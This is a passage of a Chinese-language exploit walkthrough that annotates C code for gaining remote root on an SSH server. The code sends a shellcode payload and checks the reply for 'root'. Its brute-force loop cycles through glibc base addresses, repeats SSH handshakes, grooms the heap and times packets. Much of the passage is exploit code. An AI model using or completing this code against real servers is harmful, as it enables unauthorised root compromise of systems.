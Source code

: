   
发送包含shellcode的payload  
```
send_packet(sock, 2, payload, sizeof(payload)); // 发送包含shellcode的payload
send_packet(sock, 2, payload, sizeof(payload));：通过 socket 发送包含 shellcode 的数据包。
```  
  
  
验证是否成功  
```
if (recv(sock, payload, sizeof(payload), 0) > 0)
  {
    if (strstr((char *)payload, "root") != NULL)
      return 1; // 成功
  }


return 0; // 失败
recv(sock, payload, sizeof(payload), 0) > 0：尝试从目标系统接收响应数据。如果接收到的数据长度大于 0，表示目标系统有响应。
if (strstr((char *)payload, "root") != NULL)：检查接收到的数据是否包含 "root" 字符串。如果包含，表示成功获得目标系统的 root 权限，返回 1。
```  
  
如果没有接收到包含 "root" 字符串的响应，则返回 0，表示尝试失败。  
  
  
**6. 漏洞利用主函数**  
```
int perform_exploit (const char *ip, int port)
{
  int success = 0;
  double parsing_time = 0;
  double timing_adjustment = 0;


  for (int base_idx = 0; base_idx < NUM_GLIBC_BASES && !success; base_idx++)
    {
      uint64_t glibc_base = GLIBC_BASES[base_idx];
      printf ("Attempting exploitation with glibc base: 0x%lx\n", glibc_base);


      for (int attempt = 0; attempt < 10000 && !success; attempt++)
        {
          if (attempt % 1000 == 0)
            {
              printf ("Attempt %d of 10000\n", attempt);
            }


          int sock = setup_connection (ip, port);
          if (sock < 0)
            {
              fprintf (stderr, "Failed to establish connection, attempt %d\n", attempt);
              continue;
            }


          if (perform_ssh_handshake (sock) < 0)
            {
              fprintf (stderr, "SSH handshake failed, attempt %d\n", attempt);
              close (sock);
              continue;
            }


          prepare_heap (sock);
          time_final_packet (sock, &parsing_time);

```